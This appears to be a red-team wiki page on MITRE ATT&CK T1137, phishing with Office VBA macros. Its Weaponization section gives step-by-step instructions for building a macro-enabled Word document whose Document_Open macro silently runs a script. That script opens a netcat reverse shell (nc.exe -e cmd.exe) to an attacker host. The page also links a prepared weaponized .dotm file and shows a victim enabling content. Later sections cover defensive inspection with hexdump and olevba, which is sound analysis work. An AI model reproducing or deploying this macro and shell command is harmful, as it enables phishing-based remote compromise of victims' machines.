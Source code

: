 ```yaml
---
description: Code execution with VBA Macros
---
```


# T1137: Phishing - Office Macros

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

## Weaponization

1. Create new word document \(CTRL+N\)
2. Hit ALT+F11 to go into Macro editor
3. Double click into the "This document" and CTRL+C/V the below:

{% code title="macro" %}
```javascript
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```
{% endcode %}

{% code title="C:\\tools\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode %}

This is how it should look roughly in:

![](../../../.gitbook/assets/macros-code.png)

ALT+F11 to switch back to the document editing mode and add a flair of social engineering like so:

![](../../../.gitbook/assets/macros-body%20%281%29.png)

Save the file as a macro enabled document, for example a Doc3.dotm:

![](../../../.gitbook/assets/macros-filename.png)

{% file src="../../../.gitbook/assets/doc3.dotm" caption="Dot3.dotm - Word Document with Embedded VBA Macros" %}

## Execution

Victim launching the Doc3.dotm:

![](../../../.gitbook/assets/macro-victim.png)

...and enabling the content - which results in attacker receiving a reverse shell:

![](../../../.gitbook/assets/macro-shell.png)

## Observations

The below graphic represents the process ancestry after the victim had clicked the "Enable Content" button in our malicious Doc3.dotm document:

![](../../../.gitbook/assets/macro-ancestry.png)

## Inspection

If you received a suspicious Office document and do not have any malware analysis tools, hopefully at least you have access to a WinZip or 7Zip and Strings utility or any type of Hex Editor to hand.

Since Office files are essentially ZIP archives \(PK magic bytes\):

```bash
root@remnux:/home/remnux# hexdump -C Doc3.dotm | head -n1
00000000  50 4b 03 04 14 00 06 00  08 00 00 00 21 00 cc 3c  |PK..........!..<|
```

...the file Dot3.dotm can be renamed to **Doc3.zip** and simply unzipped like a regular ZIP archive. Doing so deflates the archive and reveals the files that make up the malicious office document. One of the files is the `document.xml` which is where the main document body text goes and `vbaProject.bin` containing the evil macros themselves:

![](../../../.gitbook/assets/macros-deflated.png)

Looking inside the `document.xml`, we can see the body copy we inputted at the very begging of this page in the [Weaponization](t1137-office-vba-macros.md#weaponization) section:

![](../../../.gitbook/assets/macros-document-unzipped.png)

Additionally, if you have the strings or a hex dumping utility, you can pass the `vbaProject.bin` through it. This can sometimes give you as defender enough to determine if the document is suspicious/malicious.

Running `hexdump -C vbaProject.bin` reveals some fragmented keywords that should immediately raise your suspicion - **Shell, Hide, Sub\_Open** and something that looks like a file path:

![](../../../.gitbook/assets/macros-hex-shell.png)

If you have a malware analysis linux distro Remnux, you can easily inspect the VBA macros code contained in the document by issuing the command `olevba.py filename.dotm`. As seen below, the command nicely decodes the `vbaProject.bin`  and reveals the actual code as well as provides some interpretation of the commands found in the script:

![](../../../.gitbook/assets/macros-olevba.png)

{% hint style="danger" %}
Note that the olevba can be fooled as per [http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen](http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen)
{% endhint %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1137" %}

